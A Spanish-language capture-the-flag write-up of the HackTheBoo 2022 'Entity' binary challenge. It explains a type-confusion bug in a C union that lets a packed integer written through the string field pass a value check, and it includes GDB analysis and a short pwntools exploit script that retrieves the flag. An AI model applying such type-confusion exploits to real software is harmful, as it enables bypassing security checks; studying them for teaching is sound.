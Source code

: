 ```yaml
---
title: HackTheBoo Entity - Type Confusion via Union
author: c4rta
date: 2023-04-15
categories: [Explotacion binaria]
tags: [type confusion]
---
```


Este es un desafio del HackTheBoo del 2022, pero me parecio bastante interesante la vulnerabilidad ```type confusion```, asi que bueno, yo tambien queria resolverlo, aun que sea atrasado 

## Analisis

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
### Main

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```
En el main, tenemos un ```switch case``` con 3 opciones, donde dependiendo de lo que este en la funcion ```menu```, es lo que va a hacer

### Menu

```c
menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }
```

Nos damos cuenta que en la opcion ```C``` corresponde al ```case FLAG``` de la funcion main:

```c
case FLAG:
    get_flag();
    break;
```
Donde se manda a llamar a la funcion ```get_flag()```:

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```
Donde para mostrar la flag, tenemos que hacer que ```DataStore.integer``` sea igual a ```13371337```, sin embargo, hay una funcion que nos lo impide:

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```
Donde esta validando si ```DataStore.integer``` es igual a ```13371337``` que imoprima en pantalla el mensaje ```puts("\nWhat's this nonsense?!");``` y sale del programa

### Codigo vulnerable

Cada vez que se esta usando ```DataStore.integer``` se hace referencia a esta estructura:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

En C, la estructura ```union``` puede almacenar varios tipos de datos en la misma direccion de memoria. Por ejemplo, en este caso, ```integer``` es una variable que ocupa 8 bytes en la memoria, la cual almacena un valor entero de 64 bits, y ```string``` es otra variable la cual es una arreglo de caracteres que igual ocupa 8 bytes en la memoria (cada letra es un byte), y nosotros podemos acceder a esas variables a travez de ```DataStorage``` dependiendo de como queremos interpretar los datos dentro de ```union```, y ```union``` se encargara de ponerlas en la misma direccion de memoria, idependientemente del tipo de dato.

Y de toda esta explicacion viene la vulnerabilidad ```Type confusion``` o confusion de tipos, en la cual basicamente es un tipo de vulnerabilidad que ocurre cuando un programa utiliza incorrectamente un valor de un tipo como si fuera otro tipo. Y para este ejercicio podemos utilizar incorrectamente del valor de la variable ```string``` como si fuera el de la variable ```integer```

**Problema**

Al intentar pasarle el numero ```13371337``` como string, indicandole la opcion ```S``` como lo indica el ```case S```:

```c
case 'S':
    res.field = STRING;
    break;
```

El programa no muestra la flag:

![](/assets/img/commons/HTB-entity/tc1.png)

Y es por esta comprobacion:

```c
case STRING:
    memcpy(DataStore.string, buf, sizeof(DataStore.string));
    break;

```
Sin embargo se supone que esta todo "bien", asi que para ver que se esta comparando realmente en ```DataStore.integer == 13371337```

### Analisis con GDB

En un gdb metere un breakpoint en la intruccion donde se realiza la comparacion:

```
0x0000000000001412 <+11>:	cmp    rax,0xcc07c9
```

Primero que nada, lo que esta haciendo ```cmp    rax,0xcc07c9``` es comparar ```DataStorage``` que se guarda en ```rax```, con ```0xcc07c9``` que es el numero ```13371337```. Cuando ejecute el programa yo le indique que se guardara como string.

Al ver el valor de ```rax```:

![](/assets/img/commons/HTB-entity/tc2.png)

Nos podemos dar cuenta que lo que se guarda en ```DataStorage``` es un decimal: ```0x3733333137333331```, entonces para explotar esta confusion de tipos, podemos mandarle el numero 13371337 como string de bytes en little endian, por que ya no se estaria comprobando en la funcion ```set_field```, osea asi:

```
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

## Exploit

Y con todo lo anterior, el exploit queda asi:

```python
from pwn import *

p = process("./entity")

p.sendline("T")
p.sendline("S")
p.sendline(p64(13371337))
p.sendline("C")
p.interactive()
```

Y ya tenemos la flag:

![](/assets/img/commons/HTB-entity/tc3.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/HTB-entity/waifu.gif)

